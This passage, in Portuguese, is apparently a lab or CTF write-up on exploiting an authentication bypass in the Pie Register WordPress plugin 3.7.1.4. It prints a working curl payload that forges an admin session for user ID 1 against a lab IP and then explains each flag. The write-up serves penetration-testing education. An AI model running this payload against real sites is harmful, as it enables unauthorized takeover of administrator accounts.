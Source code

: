 A pesquisa revelou uma entrada crítica para a versão 3.7.1.4: **Authentication Bypass to RCE**. Isso confirmou que havia um caminho claro para a exploração.
![Vulnerabilidade no Exploit-DB](Images/03-exploitdb.png.png)

Com a vulnerabilidade confirmada, o plano de ataque estava definido. A próxima fase seria explorar essa falha para obter acesso não autorizado.


---
---
---

## 💥 Fase 2: Obtendo Acesso com `curl`

Com a vulnerabilidade identificada, o próximo passo era explorá-la para obter uma sessão de administrador. Após tentativas iniciais de entender o fluxo de login, a solução foi encontrada em um exploit público que utiliza um método específico para enganar a função de "login social" do plugin.

### 2.1 - O Comando Decisivo

A primeira ideia seria uma manipulação manual com o Burp Suite. Contudo, a abordagem mais eficaz seria usar um comando `curl` diretamente no terminal. Este comando envia uma requisição `POST` para a raiz do site, contendo um payload específico que abusa da lógica de registro social do Pie Register para forjar uma sessão de login para o usuário com ID 1 (que, por padrão, é o "admin").

O seguinte comando foi executado para salvar os cookies de autenticação em um arquivo chamado `cookies.txt`:

```bash
curl -L -c cookies.txt -X POST http://172.20.7.90/ -d 'user_id_social_site=1&social_site=true&piereg_login_after_registration=true&_wp_http_referer=/login/&log=null&pwd=null'
```

**Análise do comando:**

- `-L`: Segue quaisquer redirecionamentos que o servidor envie.
- `-c cookies.txt`: Salva todos os cookies recebidos da resposta do servidor no arquivo `cookies.txt`.
- `-X POST http://172.20.7.90/`: Envia a requisição como um POST para a página inicial.
- `-d '...'`: O payload crucial. Ele simula um fluxo de login social pós-registro, mas força o `user_id_social_site` para `1`.
